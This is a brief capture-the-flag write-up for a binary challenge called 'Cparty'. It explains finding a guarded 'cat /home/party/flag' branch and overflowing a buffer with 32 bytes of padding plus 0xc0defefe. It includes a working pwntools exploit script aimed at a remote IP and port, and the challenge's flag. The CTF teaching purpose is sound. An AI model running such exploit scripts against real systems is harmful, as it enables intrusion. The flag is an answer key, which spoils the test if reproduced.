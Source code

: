 # Cparty

![](./img/1.png#center)

To start I connect to the server to see what it asks me :

![](./img/2.png#center)

So I need to find a password. I will look the file with binaryninja.

![](./img/3.png#center)

As you can see, in order to retrieve the flag, we need to find ourselves in the block where there is the « cat /home/party/flag ». And just before this block we can see the comparison in order to enter this block :

![](./img/4.png#center)

Using this buffer is therefore very simple, we just have to find the size of our buffer then add the address 0xc0defefe so that the comparison is true and we can have the flag.

To use this vulnerability we need :

**Padding + 0xc0defefe**

After a while, I arrived at 32 in padding.

Now that we have everything we juste need a script to automate the pwn :

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

from pwn import *

p = remote("89.38.210.128", 31338)

p.send("A"*32+p32(0xc0defefe))

p.recv(1024)

p.interactive()

#timctf{d0nt_cr4sh_th3_p4rty_b3_th3_p4rty}
```

![](./img/5.png#center)